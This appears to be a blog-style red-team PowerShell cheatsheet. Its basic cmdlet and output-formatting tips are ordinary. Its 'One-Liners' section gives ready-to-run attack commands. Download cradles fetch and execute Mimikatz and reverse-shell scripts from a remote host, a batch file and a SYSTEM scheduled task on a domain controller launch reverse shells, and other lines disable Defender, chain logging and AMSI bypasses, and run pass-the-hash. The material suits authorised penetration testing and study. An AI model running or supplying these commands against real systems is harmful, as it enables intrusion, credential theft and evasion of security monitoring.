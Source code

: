 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
  - cheatsheet
  - oneliner
  - redteam
weight: 10
---
```


This cheatsheet will continue to receive updates. 

## PowerShell (PS) 101 commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell Version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format:
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them:
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wilcards can be used to match as well. Example:
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output: 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List all commands in a module by running:
```powershell
Get-Command -Module <module name>
```

## Handy Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in your custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Desired Path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows:
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Downlaod cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

### Decode Base64
```powershell
$EncodedText = “VABoA....”
$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
### Encode Reverse Shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\RTL\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:C:\users\appadmin\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse-shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:powershell.exe"'
```

## Playing with command output
---

### 1. Expand redacted output

You might notice that sometimes the output returnmed by PS commands is redacted with "...". This can be corrected by modifying the value of the PS variable - ```$FormatEnumerationLimit``` as follows.

``` powershell
$FormatEnumerationLimit = -1
```

### 2. Using 'more' command

Piping output of a command to ``` more ``` command makes it readable from the first line. This is equivalent to ``` less``` command in Linux/Unix.

``` powershell
Get-Process | more
```

### 3. Using -ExpandProperty

``` powershell
Get-CimClass -Namespace root/SecurityCenter2 -MethodName * | select -ExpandProperty CimClassMethods
```

### 4. Exporting output in a CSV format

Sometimes (more than we'd think) having the output in a CSV file is a blessing. Here is how it can be done using ```Export-CSV``` cmdlet.

``` powershell
Get-Date | Select-Object -Property DateTime, Day, DayOfWeek, DayOfYear | Export-Csv -Path .\DateTime.csv -NoTypeInformation
```